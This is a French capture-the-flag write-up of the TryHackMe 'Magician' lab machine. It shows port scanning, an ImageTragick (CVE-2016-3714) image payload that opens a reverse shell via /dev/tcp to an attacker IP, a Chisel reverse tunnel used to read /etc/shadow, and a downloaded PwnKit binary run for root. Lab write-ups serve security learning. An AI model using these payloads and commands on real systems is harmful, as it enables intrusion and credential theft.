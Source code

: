 # Magician VM !

La VM traite de ImageMagik et de la CVE-2016-3714.
On va tester tout cela ! :)

# Enum
## Nmap
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-05 08:11 EST
Nmap scan report for 10.10.56.0
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.0.8 or later
8080/tcp open  http-proxy
8081/tcp open  http       nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.07 seconds
```
On vois ici 3 port, le 21 pour FTP, et 8080,8081 pour un serveur web.
URL : http://10.10.56.0:8081/

Il s'agit d'un site qui convertie les images .png en .jpg.

# Exploit
Il parle de la **CVE-2016-3714** qui est une CVE concernant ImageMagik et permet d'executer des commandes via une fausse image (ou une vrai piéger :))

Plus d'info et exploit [ici](https://www.exploit-db.com/exploits/39767)
On va utiliser le payload trouvable sur le repo de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20ImageMagick)

On créer donc un fichier avec l'extension **.png**
```
nano test.png
```
Puis on colle le payload dedans:
```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/10.14.59.209/1234 0<&1 2>&1'
pop graphic-context
pop graphic-context
```
Ensuite, il sufit d'ouvrir un listener:
```
nc -lnvp 1234
```
puis d'upload le fichier sur le site, et nous voila avec un revshell :
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.14.59.209] from (UNKNOWN) [10.10.56.0] 43670
sh: cannot set terminal process group (986): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ 
```
# Privesc to root !
Dans le dossier /home de l'user **magician** on retrouve ce fichier:
```
spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
```
On regarde ce qu'il y a dedans a la recherche d'information utile:
```
jar -tf spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
```
Plein de chose mais rien d'utile.

Je lance copie Linpeas et l'execute, il trouve un truc intéressant:
```                                                                                                            
tcp        0      0 0.0.0.0:8081            0.0.0.0:*               LISTEN      -                                                                                                         
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6666          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      986/java            
tcp6       0      0 :::21                   :::*                    LISTEN      -
```
Le port 6666 est suspect.

Je vais le rerouter vers moi afin de voir ce qu'il y a derriere, pour cela, je vais utiliser l'outil [Chisel](https://github.com/jpillora/chisel) qui est un tunel TCP/UDP.
Je démarre le tunel sur ma machine :
```
chisel server -p 9001 --reverse
2023/12/05 11:10:57 server: Reverse tunnelling enabled
2023/12/05 11:10:57 server: Fingerprint ad4CZVn3A4nUKA0Xmv8X+I1tceh7Oczf2HmRcETN7xw=
2023/12/05 11:10:57 server: Listening on http://0.0.0.0:9898
```
Je copie et lance Chisel en mode client sur la machine cible:
```
./chisel client 10.14.59.209:9001 R:9002:127.0.0.1:6666
```
Je tombe sur une page web qui me demande d'entrer le nom d'un fichier.
J'entre **/etc/passwd** et cela me le renvoi encoder en base64.
Je tente avec **/etc/shadow** et je le recoit aussi en base64.

Cela veux dire que cette application a les droits **root**.

Je regarde donc **/root/root.txt** pour voir et je récupère bien le flag :
```
THM{magic_*******************_mad}
```
# Root cheat mod !
Pareil que pas mal de VM présente sur THM, elle est vulnérable avec PwnKit :
```
magician@magician:/tmp$ wget 10.14.59.209/PwnKit
--2023-12-05 10:06:32--  http://10.14.59.209/PwnKit
Connecting to 10.14.59.209:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: ‘PwnKit’

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.03s   

2023-12-05 10:06:32 (508 KB/s) - ‘PwnKit’ saved [18040/18040]

magician@magician:/tmp$ chmod +x PwnKit 
magician@magician:/tmp$ ./PwnKit 
root@magician:/tmp#
```
